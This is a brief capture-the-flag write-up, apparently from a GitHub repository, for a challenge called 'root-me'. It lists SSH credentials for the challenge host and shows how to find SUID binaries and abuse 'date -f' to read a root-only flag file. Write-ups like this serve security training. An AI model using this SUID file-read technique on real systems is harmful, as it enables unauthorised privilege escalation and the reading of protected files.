 # root-me

## Challenge Text
* SSH into the challenge host, 0.cloud.chals.io on port 19777
* Username: ubuntu Password: jctf2022!
* Find the flag

## Solution
* Use the find command to find any files owned by root with the SUID bit set
```
find / -perm -4000 
```

* Use the date command to leak the flag
```
date -f /root/flag.txt
```

## Credit
* Developed by [Rob](https://github.com/njccicrob)
